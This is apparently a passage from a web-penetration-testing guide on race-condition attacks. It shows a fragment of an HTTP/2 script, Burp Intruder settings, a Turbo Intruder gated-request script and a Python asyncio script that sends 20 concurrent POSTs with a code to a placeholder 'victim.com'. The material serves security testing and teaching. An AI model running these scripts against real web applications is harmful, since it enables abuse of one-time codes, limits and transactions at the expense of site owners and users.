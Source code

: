 ```python

    resp = h2_conn.read_response_from_socket(_timeout=3)
    frame_parser = h2_frames.FrameParser(h2_connection=h2_conn)
    frame_parser.add_frames(resp)
    frame_parser.show_response_of_sent_requests()

    print('---')

    sleep(3)
    h2_conn.close_connection()
    
    response = requests.get(url, verify=False)
```

### Raw BF

Before the previous research these were some payloads used which just tried to send the packets as fast as possible to cause a RC.

* **Repeater:** Check the examples from the previous section.
* **Intruder**: Send the **request** to **Intruder**, set the **number of threads** to **30** inside the **Options menu and,** select as payload **Null payloads** and generate **30.**
* **Turbo Intruder**

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=1,
                           pipeline=False
                           )
    a = ['Session=<session_id_1>','Session=<session_id_2>','Session=<session_id_3>']
    for i in range(len(a)):
        engine.queue(target.req,a[i], gate='race1')
    # open TCP connections and send partial requests
    engine.start(timeout=10)
    engine.openGate('race1')
    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)
```

* **Python - asyncio**

```python
import asyncio
import httpx

async def use_code(client):
    resp = await client.post(f'http://victim.com', cookies={"session": "asdasdasd"}, data={"code": "123123123"})
    return resp.text

async def main():
    async with httpx.AsyncClient() as client:
        tasks = []
        for _ in range(20): #20 times
            tasks.append(asyncio.ensure_future(use_code(client)))
        
        # Get responses
        results = await asyncio.gather(*tasks, return_exceptions=True)
        
        # Print results
        for r in results:
            print(r)
```